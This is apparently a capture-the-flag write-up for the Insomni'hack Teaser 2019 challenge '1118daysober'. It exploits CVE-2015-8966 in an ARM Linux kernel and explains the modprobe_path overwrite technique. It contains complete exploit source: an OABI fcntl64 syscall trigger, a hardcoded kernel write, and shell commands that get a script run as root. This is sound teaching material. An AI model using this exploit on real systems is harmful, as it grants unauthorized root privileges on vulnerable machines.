 ```yaml
---
title: 1118daysober : Insomni'hack Teaser 2019
updated: 2019-02-09 13:00:00
tags: [writeup,reversing,pwn]
---
```


- [1118daysober : Insomni'hack Teaser 2019](#orge54149f)
  - [usermode-helper API](#orgb555ee6)


<a id="orge54149f"></a>

# 1118daysober : Insomni'hack Teaser 2019

    The kernel of this vm is vulnerable to CVE-2015-8966, exploit it to gain root privileges and read /flag/flag.txt !
    Terminal ssh 1118daysober@1118daysober.teaser.insomnihack.ch
    Password: 1118daysober

We were given a arm qemu image and the information that it is vulnerable to `CVE-2015-8966`

```sh
$ ls
config  flag_part.img  README.txt  rootfs.img  run.sh  vmlinux  zImage
$ ./run.sh
/ $ uname -a
Linux (none) 4.9.118-00001-gab86c83a4f15 #1 SMP Sun Jan 13 14:34:37 CET 2019 armv7l GNU/Linux
```

Lucky I was able to find [POC](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) online for this CVE by the person who found this bug. So the bug was in the `fcntl64` legacy syscall. This function will call `set_fs(KERNEL_DS)` and it will not be set back to `USER_DS` when some particular flag was specified.

So the `addr_limit` variable in the `task_struct` specify the boundary of userspace and kernelspace address and when some pointers are passed to the kernel via syscall it is verified that these pointers are in the range of userspace using `access_ok()` macros. So basically `read(0, (void*)0xc0008000, 8)` wouldn't work since we have specified a kernel address. So there are times when we need to bypass this check to specify a kernel address. The `set_fs()` is used to change this, so `set_fs(KERNEL_DS)` set it to large value so that `access_ok` always return true. So after triggering the bug we can give kernel address.

I was able to give kernel addresses, but noticed that while giving user space pointer it was crashing , I could not figure out the exact cause of this. Anyway now we can only use kernel address. The main part of this post is to discuss about a cool trick, which can be used since we have a arbitrary read/write primitive in kernel space to exploit this bug.


<a id="orgb555ee6"></a>

## usermode-helper API

Using this API we can execute binaries from kernel space, and the best part is it will be executed as `root`. One of the use case of this to load required module dynamically when new device is plugged in or if we have specified a program to process the code dump in core<sub>pattern</sub>. This is a great article which talks about this API **[Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)**

If we can trigger a event which will execute this code path and if we can control the program executed we can run program as `root`.

So when you execute a program Linux searches through it internal data structure figure out the binary format of the program and the specific loader to load the program into memory and start executing it . And if that process fails if checks if there is any kernel module that will help it to load the binary of this specific format. For that it requires to execute `modprobe` command and the kernel used this API to execute and load module.

```C
do_execve()
  do_execveat_common()
     __do_execve_file()
	  exec_binprm()
	    search_binary_handler()
	      request_module()
              __request_module()
	          call_modprobe()
	            call_usermodehelper_setup()
	            call_usermodehelper_exec()
```

```C
/*
	modprobe_path is set via /proc/sys.
*/
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
static int call_modprobe(char *module_name, int wait)
{
	struct subprocess_info *info;
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/usr/sbin:/bin:/usr/bin",
		NULL
	};

	char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
	if (!argv)
		goto out;

	module_name = kstrdup(module_name, GFP_KERNEL);
	if (!module_name)
		goto free_argv;

	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
}

```

So if we can overwrite the `modeprobe_path` and if you try to execute a binary of invalid format it will execute the specified binary.

There are also other place in the code base were we can use the same trick to get code execution . like `poweroff_cmd` Since we have a write primitive in kernel space we can use it to overwrite the `modeprobe_path` using read syscall. Then trigger the code path to execute specified file.

```C
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
```

Then trigger it with

```sh
echo -ne '#!/bin/sh\n/bin/cp /flag/flag.txt /home/user/flag\n/bin/chmod 777 /home/user/flag\n' > /home/user/pwn
chmod +x /home/user/pwn
echo -ne '\xff\xff\xff\xff' > /home/user/ll
chmod +x /home/user/ll
```

Since `ll` contains a invalid magic bit, `request_module` function will be triggers and our `pwn` script will be executed as root which copies the flag can set the permission so that anyone can read it.

Exploit code, most of the code is from the POC.

```C
#define _GNU_SOURCE
#include "libc.h"

#define SEEK_SET  0       /* Seek from beginning of file.  */

struct flock
{
  short int l_type;	/* Type of lock: F_RDLCK, F_WRLCK, or F_UNLCK.	*/
  short int l_whence;	/* Where `l_start' is relative to (like `lseek').  */
  unsigned long l_start;	/* Offset where the lock begins.  */
  unsigned long l_len;	/* Size of the locked area; zero means until EOF.  */
  int l_pid;	/* Process holding the lock.  */
};
int try_to_read_kernel(){
  int len;
  int try_bytes = 4;

  /* char * path="/home/user/lll"; */
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
  
  
  return len == try_bytes;
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
        
  __asm __volatile (
                    "swi	0x9000DD\n"
                    "mov	pc, lr\n"
                    :   
                    :
                    :
                    );
}

#define F_OFD_GETLK	36
#define F_OFD_SETLK	37
#define F_OFD_SETLKW 38


int _start(){
  int fd = open("/proc/cpuinfo", O_RDONLY);
  struct flock *map_base = 0;

  map_base = (struct flock *)mmap(0x0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

  map_base->l_start = SEEK_SET;
  sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base);
  try_to_read_kernel();
  return 0;
}
```

Reference : [1] : [New Reliable Android Kernel Root Exploitation Techniques](http://powerofcommunity.net/poc2016/x82.pdf) [2] : [POC CVE-2015-8966](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) [3] : [@bata<sub>24</sub> kernel note](https://hackmd.io/s/r1BAS2P0z#) [4] : [Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)
